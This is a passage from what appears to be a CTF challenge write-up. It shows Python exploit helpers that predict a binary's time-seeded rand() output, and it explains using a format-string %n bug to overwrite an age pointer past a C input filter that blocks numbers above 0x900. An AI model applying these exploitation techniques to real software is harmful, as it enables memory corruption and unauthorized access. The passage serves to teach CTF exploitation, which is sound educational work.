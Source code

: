 ```python
    sla("Candidate: ",str(idx))

def free(idx):
    sla(">> ",'3')
    sla("Candidate: ",str(idx))

def move_on():
    sla(">> ",'4')

#Mimicing the random function implemented by binary to break it
def get_rand():
    toc = c_long()
    tic = libc.time(byref(toc))
    while True:
        libc.srand(tic/60)
        lower = 0x1000
        upper = 0xffff
        rand_num = libc.rand()%(upper-lower+1) + lower
        delay = libc.rand()%300 + 1
        end_time = tic + delay
        tic = tic + delay
        libc.srand(end_time/30)
        rand_num_2 = libc.rand()%(upper-lower+1) + lower
        region = rand_num & rand_num_2
        if(region>0x1000):
            return region

```

Now that we have calculated the age , we need to somehow overwrite the age pointer with this so that we pass the check.

### Triggering The Format String Bug

You can think of directly overwriting the age pointer with the afore calculated random number , but the issue is , I had added checks for directly not allowing numbers greater than `0x900` to be present in the input string.

```c
//%n is allowed in format string , but u cant write large numbers (greater than 0x900) with %n
void check_num(char *p)
{
    while (*p) 
    { 
        if ( isdigit(*p)) 
        {
            long val = strtol(p, &p, 10); 
            if(val>0x900)
            {
                puts("Not allowed");
                Exit();
            }
        } 
        else
            p++;
    }
    return;
}

```
